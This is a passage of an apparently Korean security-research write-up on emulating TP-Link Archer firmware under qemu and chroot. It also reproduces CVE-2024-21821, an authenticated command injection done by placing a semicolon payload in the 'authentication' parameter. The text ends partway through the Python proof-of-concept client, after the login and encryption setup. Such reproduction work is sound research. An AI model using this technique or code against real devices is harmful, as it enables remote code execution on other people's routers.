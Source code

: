 ### 3.2 마운트 & chroot

```bash
sudo mount --bind /dev ./dev
sudo mount --bind /proc ./proc
sudo rm -rf var && mkdir -p var/run
sudo chroot . /bin/bash

# chroot 내부
ubusd &
exit
```

### 3.3 웹 서버 실행

```bash
sudo chroot . usr/bin/qemu-arm-static /usr/sbin/uhttpd \
  -f -h /www -r Archer_AXE300 -x /cgi-bin -t 120 -T 30 -A 1 -n 3 -R -p 0.0.0.0:80
```

> **팁**: 문제 발생 시 `-strace`로 디버깅.
>
> ```bash
> sudo chroot . /usr/bin/qemu-mipsel-static -strace -D /tmp/qemu.log /usr/bin/httpd
> ```

### 3.4 Trouble Shooting — `account1` 누락

`/etc/config/usbshare` 설정에서 참조되는 `account1`(username/password) 섹션이 없으면 아래와 같은 예외가 발생한다.

```
... folder_sharing.lua:696: attempt to concatenate local 'password' (a nil value)
```

`uci`에 `account1` 을 추가한 뒤 재시도하면 정상 접근 가능하다(웹 UI 확인 스크린샷 참조).

---

## 4. Exploit (연구 재현용)

### 4.1 PoC 코드

> 인증 이후 `authentication` 파라미터에 세미콜론(;)을 이용해 페이로드를 삽입하는 취지의 재현용 코드. **패치 이전 펌웨어에서만** 동작한다.

```python
#!/usr/bin/python3
# CVE-2024-21821 — TP-Link Archer Authenticated Command Injection (RCE)
# Based on diff around folder_sharing.lua

import argparse
import requests
import binascii, base64, os, re, json, sys, time, random, hashlib
from Crypto.Cipher import AES
from Crypto.Cipher import PKCS1_v1_5
from Crypto.PublicKey import RSA
from Crypto.Util.Padding import pad, unpad
from urllib.parse import urlencode

class WebClient(object):
    def __init__(self, target, password):
        self.target = target
        self.password = password.encode('utf-8')
        self.password_hash = hashlib.md5(('admin%s'%password).encode('utf-8')).hexdigest().encode('utf-8')
        self.aes_key = (str(time.time()) + str(random.random())).replace('.','')[0:AES.block_size].encode('utf-8')
```